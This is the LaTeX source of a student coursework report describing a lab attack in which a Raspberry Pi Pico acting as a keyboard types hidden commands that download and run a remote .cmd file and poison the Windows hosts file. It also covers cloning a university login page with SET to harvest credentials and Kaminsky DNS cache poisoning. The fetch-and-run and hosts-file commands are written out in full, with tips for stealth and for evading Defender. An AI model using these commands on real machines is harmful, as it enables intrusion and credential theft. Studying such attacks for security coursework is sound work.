\newcommand{\bbI}{\mathbb{I}}	\newcommand{\bbJ}{\mathbb{J}}
\newcommand{\bbK}{\mathbb{K}}	\newcommand{\bbL}{\mathbb{L}}
\newcommand{\bbM}{\mathbb{M}}	\newcommand{\bbN}{\mathbb{N}}
\newcommand{\bbO}{\mathbb{O}}	\newcommand{\bbP}{\mathbb{P}}
\newcommand{\bbQ}{\mathbb{Q}}	\newcommand{\bbR}{\mathbb{R}}
\newcommand{\bbS}{\mathbb{S}}	\newcommand{\bbT}{\mathbb{T}}
\newcommand{\bbU}{\mathbb{U}}	\newcommand{\bbV}{\mathbb{V}}
\newcommand{\bbW}{\mathbb{W}}	\newcommand{\bbX}{\mathbb{X}}
\newcommand{\bbY}{\mathbb{Y}}	\newcommand{\bbZ}{\mathbb{Z}}

%---------------------------------------
% MathCal Fonts :-
%---------------------------------------

%Captital Letters
\newcommand{\mcA}{\mathcal{A}}	\newcommand{\mcB}{\mathcal{B}}
\newcommand{\mcC}{\mathcal{C}}	\newcommand{\mcD}{\mathcal{D}}
\newcommand{\mcE}{\mathcal{E}}	\newcommand{\mcF}{\mathcal{F}}
\newcommand{\mcG}{\mathcal{G}}	\newcommand{\mcH}{\mathcal{H}}
\newcommand{\mcI}{\mathcal{I}}	\newcommand{\mcJ}{\mathcal{J}}
\newcommand{\mcK}{\mathcal{K}}	\newcommand{\mcL}{\mathcal{L}}
\newcommand{\mcM}{\mathcal{M}}	\newcommand{\mcN}{\mathcal{N}}
\newcommand{\mcO}{\mathcal{O}}	\newcommand{\mcP}{\mathcal{P}}
\newcommand{\mcQ}{\mathcal{Q}}	\newcommand{\mcR}{\mathcal{R}}
\newcommand{\mcS}{\mathcal{S}}	\newcommand{\mcT}{\mathcal{T}}
\newcommand{\mcU}{\mathcal{U}}	\newcommand{\mcV}{\mathcal{V}}
\newcommand{\mcW}{\mathcal{W}}	\newcommand{\mcX}{\mathcal{X}}
\newcommand{\mcY}{\mathcal{Y}}	\newcommand{\mcZ}{\mathcal{Z}}


%---------------------------------------
% Bold Math Fonts :-
%---------------------------------------

%Captital Letters
\newcommand{\bmA}{\boldsymbol{A}}	\newcommand{\bmB}{\boldsymbol{B}}
\newcommand{\bmC}{\boldsymbol{C}}	\newcommand{\bmD}{\boldsymbol{D}}
\newcommand{\bmE}{\boldsymbol{E}}	\newcommand{\bmF}{\boldsymbol{F}}
\newcommand{\bmG}{\boldsymbol{G}}	\newcommand{\bmH}{\boldsymbol{H}}
\newcommand{\bmI}{\boldsymbol{I}}	\newcommand{\bmJ}{\boldsymbol{J}}
\newcommand{\bmK}{\boldsymbol{K}}	\newcommand{\bmL}{\boldsymbol{L}}
\newcommand{\bmM}{\boldsymbol{M}}	\newcommand{\bmN}{\boldsymbol{N}}
\newcommand{\bmO}{\boldsymbol{O}}	\newcommand{\bmP}{\boldsymbol{P}}
\newcommand{\bmQ}{\boldsymbol{Q}}	\newcommand{\bmR}{\boldsymbol{R}}
\newcommand{\bmS}{\boldsymbol{S}}	\newcommand{\bmT}{\boldsymbol{T}}
\newcommand{\bmU}{\boldsymbol{U}}	\newcommand{\bmV}{\boldsymbol{V}}
\newcommand{\bmW}{\boldsymbol{W}}	\newcommand{\bmX}{\boldsymbol{X}}
\newcommand{\bmY}{\boldsymbol{Y}}	\newcommand{\bmZ}{\boldsymbol{Z}}
%Small Letters
\newcommand{\bma}{\boldsymbol{a}}	\newcommand{\bmb}{\boldsymbol{b}}
\newcommand{\bmc}{\boldsymbol{c}}	\newcommand{\bmd}{\boldsymbol{d}}
\newcommand{\bme}{\boldsymbol{e}}	\newcommand{\bmf}{\boldsymbol{f}}
\newcommand{\bmg}{\boldsymbol{g}}	\newcommand{\bmh}{\boldsymbol{h}}
\newcommand{\bmi}{\boldsymbol{i}}	\newcommand{\bmj}{\boldsymbol{j}}
\newcommand{\bmk}{\boldsymbol{k}}	\newcommand{\bml}{\boldsymbol{l}}
\newcommand{\bmm}{\boldsymbol{m}}	\newcommand{\bmn}{\boldsymbol{n}}
\newcommand{\bmo}{\boldsymbol{o}}	\newcommand{\bmp}{\boldsymbol{p}}
\newcommand{\bmq}{\boldsymbol{q}}	\newcommand{\bmr}{\boldsymbol{r}}
\newcommand{\bms}{\boldsymbol{s}}	\newcommand{\bmt}{\boldsymbol{t}}
\newcommand{\bmu}{\boldsymbol{u}}	\newcommand{\bmv}{\boldsymbol{v}}
\newcommand{\bmw}{\boldsymbol{w}}	\newcommand{\bmx}{\boldsymbol{x}}
\newcommand{\bmy}{\boldsymbol{y}}	\newcommand{\bmz}{\boldsymbol{z}}

%---------------------------------------
% Scr Math Fonts :-
%---------------------------------------

\newcommand{\sA}{{\mathscr{A}}}   \newcommand{\sB}{{\mathscr{B}}}
\newcommand{\sC}{{\mathscr{C}}}   \newcommand{\sD}{{\mathscr{D}}}
\newcommand{\sE}{{\mathscr{E}}}   \newcommand{\sF}{{\mathscr{F}}}
\newcommand{\sG}{{\mathscr{G}}}   \newcommand{\sH}{{\mathscr{H}}}
\newcommand{\sI}{{\mathscr{I}}}   \newcommand{\sJ}{{\mathscr{J}}}
\newcommand{\sK}{{\mathscr{K}}}   \newcommand{\sL}{{\mathscr{L}}}
\newcommand{\sM}{{\mathscr{M}}}   \newcommand{\sN}{{\mathscr{N}}}
\newcommand{\sO}{{\mathscr{O}}}   \newcommand{\sP}{{\mathscr{P}}}
\newcommand{\sQ}{{\mathscr{Q}}}   \newcommand{\sR}{{\mathscr{R}}}
\newcommand{\sS}{{\mathscr{S}}}   \newcommand{\sT}{{\mathscr{T}}}
\newcommand{\sU}{{\mathscr{U}}}   \newcommand{\sV}{{\mathscr{V}}}
\newcommand{\sW}{{\mathscr{W}}}   \newcommand{\sX}{{\mathscr{X}}}
\newcommand{\sY}{{\mathscr{Y}}}   \newcommand{\sZ}{{\mathscr{Z}}}


%---------------------------------------
% Math Fraktur Font
%---------------------------------------

%Captital Letters
\newcommand{\mfA}{\mathfrak{A}}	\newcommand{\mfB}{\mathfrak{B}}
\newcommand{\mfC}{\mathfrak{C}}	\newcommand{\mfD}{\mathfrak{D}}
\newcommand{\mfE}{\mathfrak{E}}	\newcommand{\mfF}{\mathfrak{F}}
\newcommand{\mfG}{\mathfrak{G}}	\newcommand{\mfH}{\mathfrak{H}}
\newcommand{\mfI}{\mathfrak{I}}	\newcommand{\mfJ}{\mathfrak{J}}
\newcommand{\mfK}{\mathfrak{K}}	\newcommand{\mfL}{\mathfrak{L}}
\newcommand{\mfM}{\mathfrak{M}}	\newcommand{\mfN}{\mathfrak{N}}
\newcommand{\mfO}{\mathfrak{O}}	\newcommand{\mfP}{\mathfrak{P}}
\newcommand{\mfQ}{\mathfrak{Q}}	\newcommand{\mfR}{\mathfrak{R}}
\newcommand{\mfS}{\mathfrak{S}}	\newcommand{\mfT}{\mathfrak{T}}
\newcommand{\mfU}{\mathfrak{U}}	\newcommand{\mfV}{\mathfrak{V}}
\newcommand{\mfW}{\mathfrak{W}}	\newcommand{\mfX}{\mathfrak{X}}
\newcommand{\mfY}{\mathfrak{Y}}	\newcommand{\mfZ}{\mathfrak{Z}}
%Small Letters
\newcommand{\mfa}{\mathfrak{a}}	\newcommand{\mfb}{\mathfrak{b}}
\newcommand{\mfc}{\mathfrak{c}}	\newcommand{\mfd}{\mathfrak{d}}
\newcommand{\mfe}{\mathfrak{e}}	\newcommand{\mff}{\mathfrak{f}}
\newcommand{\mfg}{\mathfrak{g}}	\newcommand{\mfh}{\mathfrak{h}}
\newcommand{\mfi}{\mathfrak{i}}	\newcommand{\mfj}{\mathfrak{j}}
\newcommand{\mfk}{\mathfrak{k}}	\newcommand{\mfl}{\mathfrak{l}}
\newcommand{\mfm}{\mathfrak{m}}	\newcommand{\mfn}{\mathfrak{n}}
\newcommand{\mfo}{\mathfrak{o}}	\newcommand{\mfp}{\mathfrak{p}}
\newcommand{\mfq}{\mathfrak{q}}	\newcommand{\mfr}{\mathfrak{r}}
\newcommand{\mfs}{\mathfrak{s}}	\newcommand{\mft}{\mathfrak{t}}
\newcommand{\mfu}{\mathfrak{u}}	\newcommand{\mfv}{\mathfrak{v}}
\newcommand{\mfw}{\mathfrak{w}}	\newcommand{\mfx}{\mathfrak{x}}
\newcommand{\mfy}{\mathfrak{y}}	\newcommand{\mfz}{\mathfrak{z}}



\usepackage{xcolor}
\definecolor{gre}{RGB}{101, 191, 127}
\definecolor{gree}{RGB}{7, 135, 44}
\usepackage[most]{tcolorbox}
%\documentclass{minimal}
\usepackage{fancyvrb}
\usepackage{setspace} % spacing
\usepackage{caption}

\date{}

\begin{document}
\begin{titlepage}
    \begin{center}
    \begin{spacing}{1.8}
      {\Large\bfseries{COURSEWORK: DNS CACHE POISONING WITH THE USE OF KEYSTROKE INJECTION}}\\
    \end{spacing}
  
    \vspace{40pt}\par
    
\includegraphics[width=10cm]{./Figures/HWUlogo.jpg}
    \vspace{40pt}\par
  
    {\itshape\fontsize{15.5pt}{15pt}\selectfont by\\}\vspace{15pt}\par
  
    {\Large Group 3\\[1em] Jagasia, Raj (rj2011) \\[0.5em] Moses, Jacinth Daniel (jdm2003) \\[0.5em] Shaikh, Ismael(ms2019)    \vspace{50pt}}
    
    {
    \large Submitted for the Course of \\ \vspace{5pt} \Large\slshape{Advanced Network Security $|$ F20AN}\\
    }
    
    \vspace{15pt}\par
    
    {\scshape\setstretch{1.5} Heriot-Watt university\\ Dubai}
    
    \vspace{25pt}\par
    
    
    {\large $18^{th}$ March 2024}
  \end{center}
\end{titlepage}
\newpage

\section*{Introduction}

In this coursework, we explore a method of compromising a victim's machine by
manipulating DNS resolution using a portable device. Our chosen device for this
purpose is the Raspberry Pi Pico. By infecting the hosts file on the victim's
machine, we establish a DNS mapping that directs them to a malicious website
hosted by us. The primary objective is to bypass the Windows Defender, add our
malicious mapping (we can do any attack if we want to instead of DNS poisoning)
and obtain user credentials through this deceptive website. To create the
malicious site, we utilize the Social Engineering Toolkit (SET). Additionally,
we've constructed a GNS3 topology to demonstrate how this attack would unfold
in a real-world scenario. We have also explored DNS Server Poisoning attack
using the Birthday Paradox \& Kaminsky method.
\\[0.5em]
The report below will begin by explaining how the attack works, followed by an
overview of the GNS3 Topology. We'll then delve into the commands used to
generate the website using the Social Engineering Toolkit (SET). We'll also
talk a bit about the setup of the Raspberry Pi Pico. Additionally, we'll
discuss the Kaminsky attack and highlight the steps taken and any roadblocks
encountered. Finally, the report concludes with an Appendix section that
provides more detailed information about some of the challenges faced during
the project.

\section*{How It Works}
As soon as the USB is inserted into the victim's machine, the Run window will open and the below command will be typed.  

\textbf{cmd /c cd C:\ \&\& curl -L -o v.cmd https://t.ly/L1N0l$>$ NUL 2$>$\&1 \&\& v.cmd}\\[1em]
\begin{minipage}{0.5\linewidth}
  \centering
  
\includegraphics[width=7cm]{Figures/run.png}
  \captionof{figure}{Run command}
  \label{fig:gns3}
  \end{minipage}
  \hfil
  \begin{minipage}{0.5\linewidth}
    This will download a .cmd file from the URL and execute it. The .cmd file adds
    a malicious mapping between a legitimate domain and our IP address. This is
    done to steal the credentials of the user. The IP address in the above mapping
    is hosting a clone of the real website created using SET. By modifying the .cmd
    file we can do multiple other attacks such as creating a reverse shell, Man in
    the Middle attacks, Denial of Services attacks, etc. Then it will start another
    attack on the local DNS Server of the Network and try to poison it using the
    Kaminsky method.
\end{minipage}
\\[1em]

\section*{GNS3 Topology}

GNS3 is a powerful emulation tool that we used to create a network topology to
develop the attack and understand how it will work in the real world. In
addition, we also used several tools that integrate natively with GNS3 such as
Wireshark to look at the packets flowing through the network, VMWare to emulate
fully fledged computers on or network, and lastly, we use Docker containers to
emulate fewer demanding tasks that need to be done by separate machines.

All VMs and interfaces except the one facing NAT belong to the 10.0.0.0/16
subnet with more subnet divisions within mimicking an WAN within private IPs
with the DNS server managing the routing between the different subnets and the
actual WAN. The network setup is as follows:


\includegraphics[width=15cm]{Figures/gns3.png}
\begin{itemize}
  \item DNS Server - UBUNTU 22.04 VM Running bind9 v.1.18.1-UBUNTU22.04 
  \item Windows 10 Client 22H2 is our victim machine. 
  \item Fake Website - KALI Linux running SET Toolkit to emulate the fake website. 
  \item VPCS for testing routing of 10.0.0.0/16 network 
  \item Debian QEMU VM acts as firewall (for blocking incoming DNS packets during initial testing) and uses tc to slow down outgoing packets for higher probabilities of success. 
  \item GNS3 Switches 
  \item NAT node which uses a dedicated ethernet Interface on the host machine for the networks traffic, isolating it from the rest of the host machines traffic 
  \item Docker containers and switches are run on the GNS3 VM as per GNS3 Recommendations. 
\end{itemize}

\section*{SET Toolkit}

The Social-Engineer Toolkit (setoolkit) was used as part of the DNS cache
poisoning process in order to create a replica of a vulnerable website. The
vulnerable website chosen for this task is myhwu.hw.ac.uk primarily due the
fact that its username and password fields are easily identifiable and detected
by SET's cloning functionality, thus allowing for seamless information
harvesting without any unwanted artifacts. The cloning of the website was done
by following the below steps:
\begin{itemize}
  \item Launch setoolkit from a root terminal by typing setoolkit.
  \item Select “1) Social Engineering Attacks” from the menu.
  \item Select “2) Website Attack Vectors” from the next menu since we want to launch a website-based attack.
  \item Select “3) Credential Harvester Attach Method” to clone myhwu.hw.ac.uk and host it on a webserver's IP address.
  \item Once cloned, any information entered within the credential fields will be present in plain text to the attacker.
  
\end{itemize}


\section*{Raspberry Pi Pico Setup} 

For keystroke injection to work, this project uses the same principles of a
rubber Ducky a popular hacking tool which has a payload.dd file and a process
that parses the file for commands and text and sends the appropriate ASCII
signals to the host machine via USB pretending to be a HID(Human-Interface
Device), but we chose to make our own rubber ducky as they are expensive, and
with the help from this repo: \href{https://github.com/dbisu/pico-ducky}{dbisu/pico-ducky: Create a USB Rubber Ducky like
device using a Raspberry PI Pico} we are able to parse our file
using python and emulate a rubber ducky


\includegraphics[origin=c,width=15cm]{Figures/pico.png}
\begin{itemize}
  \item Bridge the blue pins for showing the file system
  \item Bridge the black pins to NOT execute the payload
\end{itemize}
\section*{Kaminsky Attack}


\includegraphics[width=15cm]{Figures/kaminsky.png}\\
The Kaminsky DNS cache poisoning attack exploits vulnerabilities in DNS to redirect network traffic to malicious servers. The attacker sends numerous DNS queries for non-existent subdomains of a target domain to a vulnerable DNS server for example for a domain "example.com", the attack would generate "sbkjadfj.example.com", "adfa.example.com", and so on. While the server waits for responses from the authoritative nameserver, the attacker floods it with fake responses containing a malicious IP address. If a fake response matches the transaction ID of a pending query, the server caches the malicious IP, redirecting future traffic to the attacker's server. Users are then unknowingly redirected to a fake website when trying to visit the legitimate domain. The attack's success relies on exploiting predictable transaction IDs and flooding the server with fake responses. Although mitigations have been implemented since its discovery in 2008, the Kaminsky method highlights the importance of secure DNS practices.


\section*{Roadblocks faced and Steps Taken}

This section explains the steps we took to achieve the final goal. This also
mentions the roadblocks we faced. Our final attack was achieved after passing
all these roadblocks. This part starts by explaining why we choose Raspberry Pi
Pico as the device to do the attack instead of a normal USB. Then it explains
our progress on improving the attack on the local DNS resolution. It mentions
how was the code improved and made quicker and the difficulties faced, how we
made the attack almost unnoticeable. Additionally, it also includes the attacks
tried on the local DNS server of the network and why we settled on the Kaminsky
attack instead of the Birthday Paradox attack.

\subsection*{Why we used Raspberry Pi Pico instead of a Normal USB?}

We found 3 ways in which we can use a normal USB.
\begin{itemize}
  \item A process running on a victim's machine.  
  \item Clicking on a file with an attached exe
  \item Adding a autorun.inf file in the USB
\end{itemize}

All the above methods have a lot of limitations. They only work when some
process is running or something is enabled on the victim's machine. A detailed
explanation of the working and limitations is mentioned in the Appendix. As we
faced multiple limitations using a normal USB, we searched for ways to overcome
them. We came across HID's which stands for Human Interface Device. When a
normal USB is plugged into a computer it's recognized as USB Mass Storage
Device. If you plug in a normal USB in your computer and go to Device Manager.
You will see it listed under Universal Serial Bus Controllers.
\\[1em]
\begin{minipage}{0.5\linewidth}
  \centering
  
\includegraphics[width=8.5cm]{Figures/Device.png}
  \captionof{figure}{Device Manager showing pico as USB}
  \label{fig:gns3}
  \end{minipage}
  \hfil
  \begin{minipage}{0.5\linewidth}
    \centering
    
\includegraphics[width=5cm]{Figures/hid.png}
    \captionof{figure}{Device Manager showing pico as HID}
\end{minipage}
\\[1em]
But if you plug in a HID device it comes under the HID section in the Device
manager. An HID device includes a keyboard, mouse, etc. These devices are also
allowed to autorun as windows considers them as safe.\\
So, we just need to make the computer think that our Raspberry Pi Pico is a
keyboard. This enables us to use all the commands a keyboard can use. And with
the keyboard we can control the whole computer.
\\[1em]

\subsection*{Steps Taken to Optimize the Local DNS Resolution and Roadblocks faced}
\subsubsection*{1: POISONING THE LOCAL DNS RESOLUTION}

We initially thought of poisoning the local DNS Cache of the victim but then we
decided to poison the host file. This was done because once a mapping is added
to hosts file flushing the DNS cache won't resolve this so this will act as an
Advanced Persistent Threat. Also, when the computer performs a hostname
resolution it first checks the hosts file for any manual mappings and then
checks the DNS cache. So, it takes precedence over DNS Cache.

\subsubsection*{2: WINDOWS DEFENDER}

We tried various ways to disable Windows Defender. The most common easiest way
to do this is use the keyboard to open setting and disable windows security.
But this is extremely noticeable. So, we tried some methods which are quicker
using the command prompt and PowerShell in Administrator Mode. This is done by
adding registry keys and disabling the windows Defender through them, but the
issue is until taper protection is on even if we add registry keys to disable
Win-Def it won't work. And we can't disable tamper protection through admin cmd
or PowerShell. It mentions that we don't have access.

\subsubsection*{3: MAKE THE ATTACK QUICKER}

The easiest method to poison the DNS cache was to tell the RPi Pico to press
windows key then search for the keyword cmd then open it in admin mode once
it's open cd into the host directory and add a malicious mapping. But this
method was extremely noticeable (We are using GUI). Our aim is to achieve a
less suspicious way of doing it and which is done so fast that the victim just
blinks and everything is done. This way the user will think nothing of it. So,
the way we achieved is as soon as you put in the USB the run window and cmd
window pops up for a second and it closes. That's it, the attack is done. This
is done with the help of command line instead of the GUI in the previous
method. We have used t.ly to shorten the URL so it types faster, and the
overall process is faster.

\subsubsection*{4: COMMAND FOR THE ATTACK}

We use the run window and type the below command to do the local DNS Poisoning.
There is another command we can use to achieve the same result but the reason
for choosing this command over the other way and the explanation for the below
commands is mentioned in the Appendix.


\includegraphics{Figures/cmd.png}

\subsubsection*{5: REASON FOR USING .CMD INSTEAD OF .EXE}

We used .cmd instead of .exe because sometimes windows defender blocks .exe
files but we did not face this issue with .cmd files. We were initially
compiling our python file to a .exe file but then changed the code to a .cmd
file.

\section*{Why we choose to do the Kaminsky Attack instead of the Birthday Paradox Attack}

We originally planning on doing the DNS Server Cache poisoning using the
Birthday Paradox Attack but bind9 server does not issue multiple requests for
the queries we sent, this making the probability of getting the correct id =
1/65536, which defeats the whole point of the birthday paradox attack, to
resolve this we investigated the Kaminsky attack. Kaminsky attack uses a
different principle which is mentioned above, and it works for our setup. In
the Appendix, we have mentioned the steps and explanation of the Birthday
Paradox attack.

\section*{Conclusion}

This report explains how a USB device can be used to attack a victim's computer
by manipulating DNS. We used a Raspberry Pi Pico configured as a keyboard for a
stealthy attack. We explored different techniques, considering limitations and
ways to bypass modern security measures. Our investigation led us to adopt the
Kaminsky attack, which is effective against our DNS server setups. The project
highlights the importance of staying vigilant against social engineering,
having strict USB policies, and using strong DNS security. Future research
could refine the attack, test it in complex networks, and explore its use in
advanced persistent threats (APTs).

Another conclusion is that other than changing the hosts file using the pico (Phase 1), if DNSSEC is enabled in a local DNS Server, all of these attacks would fail



\newpage \appendix 
\chapter*{Appendix}
\section*{Using a normal USB}
\subsection*{METHOD 1: A PROCESS RUNNING ON A VICTIM'S MACHINE}

\textbf{Working:} We have a process running on a victim's machine which captures any new
removable USB drive inserted. Once it finds such a USB drive it runs a exe file
from the drive and infects the victims computer. \\[0.5em]
\textbf{Limitations}: We have to run a process or a python code on the victim's
machine before inserting the USB. How will we run the process? We can directly
insert the USB and click on the exe file instead of starting a process. It's
very noticeable.

\subsection*{METHOD 2: CLICKING ON A FILE WITH AN ATTACHED EXE}

\textbf{Working:} Attaching a malicious executable with a file. As soon the
file clicked the malicious executable will be executed in the background and
infect the victim's computer. \\ [0.5em]
\textbf{Limitations:} This depends on the victim/user. If he/she is not curious
or a little bit cautious, he/she won't click or open any file. This attack will
entirely depend on the victim

\subsection*{METHOD 3: ADDING A AUTORUN.INF FILE IN THE USB}

\textbf{Working:} We have to add an autorun.inf file in the USB specifying the
filename of the thing we have to execute. So as soon as the USB is inserted in
the computer the specified file is opened.\\[0.5em]
\textbf{Limitations:} By default, Windows disables autorun from USB Drives. So,
for an attack to work this way the autorun in the settings of the device should
be off which is tough to be true because no normal user will go to the settings
and disable autorun just to be infected. Thus, this method is not viable.


\includegraphics[width=10cm]{Figures/Autorun.jpg}

\section*{Commands used for the attack}
We use the run window and type the below commands
\begin{verbatim}
  Command 1: cmd /c echo 10.0.2.4  mydfdshwu.hw.ac.uk >> C:\Windows\System32\drivers\etc\hosts 
\end{verbatim}
TBD really need pics?
\begin{itemize}
  \item cmd /c - This tells Windows to execute the following command in cmd 
  \item echo 10.0.2.4  myhwu.hw.ac.uk - This is a command used to display text on the command prompt or to redirect it to a file. Here, it's used to output the string 10.0.2.4 myhwu.hw.ac.uk. 
  \item $>>$ - This is a redirection operator. In this case, it appends the output of the echo command to the end of the file. 
  \item C:$\backslash$Windows$\backslash$System32$\backslash$drivers$\backslash$etc$\backslash$hosts - This is the path to the hosts file on a Windows system. 
  \item Overall, this command adds a mapping between a domain and an IP address to the end of the host's file.
\end{itemize}

\begin{verbatim}
  Command 2: cmd /c cd C:\ && curl -L -o v.cmd https://t.ly/L1N0l> NUL 2>&1 && v.cmd \end{verbatim}
TBD really need pics?
\begin{itemize}
  \item cd C:\ - This tells Windows to move to the C directory.  
  \item \&\& - This operator is used to execute multiple commands sequentially  
  \item curl -L -o v.cmd https://t.ly/L1N0l - This command uses curl to download a file from the URL and save it as v.cmd  
  \item \> NUL 2$>$\&1 - This part redirects the standard output and the stderr to NUL thus suppressing any message. (So even if the cmd opens it will be blank)  
  \item v.cmd - This is used to execute the file v.cmd 
\end{itemize}

There are 2 commands mentioned. Command 1 is for only poisoning the hosts file
while with command 2 we can do anything. Command 2 downloads a cmd file from
the web and runs that. Thus, modifying anything thus this is not limited only
to DNS poisoning, we can do any attack we want using this method.\\

We can also select which payload to launch from the pico as bridging different pins launches different payloads

\section*{DNS Cache Poisoning via Birthday Paradox}

We can apply the birthday paradox to our DNS cache poisoning scenario as the ID that we must guess is 16 bits meaning it can have 65536 possible random values, however if we increase the number of queries that are generated by bind9 for the same domain, we have a higher chance of guessing the right answer. 
  
Guessing the Port: 
In the past DNS Servers used the same port for sending out DNS queries, but this was susceptible to many attacks as all they had to do was guess the query ID and so they decided to randomize the port which was used for sending queries, however on previous versions of bind9, if port 2345 was used to send a query on behalf of a specific client and the same client asked another query to the server the same port would be used, rendering the fix kind of useless. 
More modern DNS Servers randomize the port number when they send queries, regardless of if it is the same client, making this attack exponentially more difficult.  
We overcame this by setting the port number for all queries to 33333. 
  
DNSSEC: 
As DNSSEC does not have a wide adoption rate, we chose to turn it off as if it were left on this attack would not be possible. 
  
Slow Python: 
This is the big problem we could technically not overcome, as the code we wrote in python is incredibly slow  
  
for poisoning a DNS Cache, you need 3 things, matching IPs, matching domain name and matching query ID 
  
The way this multi-threaded python program works is by creating a thread that issues DNS queries to our local DNS server for myhwu.hw.ac.uk and the server queries the root server (co UK) then the heriot watt name server for the IP, while this is being done, our main thread sends 700 DNS response packets to the interface 10.0.0.2(the interface the query leaves the DNS from) @port 33333 with different query IDs as we know the name server IP and we know the outward facing interface address. 
  
As part of the response, we send a fake an that maps myhwu.hw.ac.uk to a local nameserver ns.hw.ac.uk and ar, that maps the nameserver to 10.0.2.4 
  
As illustrated in \cite{bday} The reason we sent 700 replies is when bind9 is choosing pseudo random numbers for the probability of an query ID collision is 100\% \\[0.5em]

\includegraphics[width=17cm]{Figures/bp.png}
   
After sending 700 replies, using Wireshark we can see many packets did not make it in time as the seplu with the correct id came back and the port closed resulting in ICMP port unreachable messages 
  
The issue is that python is simply not fast enough to send this many packets at the speed required, hence the real IP is sent back to the windows VM, what we settled for as we couldn't get this working in time on C, is if a real reply comes back we send a cache invalidation packet to the server and restart this attack 
  
The real problem is that our bind9 server does not issue multiple requests for the queries we sent, this making the probability of getting the correct id = 1/65536, which defeats the whole point of the birthday paradox attack, to resolve this we investigated the Kaminski attack 

\begin{thebibliography}{9}
  \bibitem{bday}
  Joe Stewart: https://www.ida.liu.se/~TDDD17/literature/dnscache.pdf

\end{thebibliography}
\end{document}
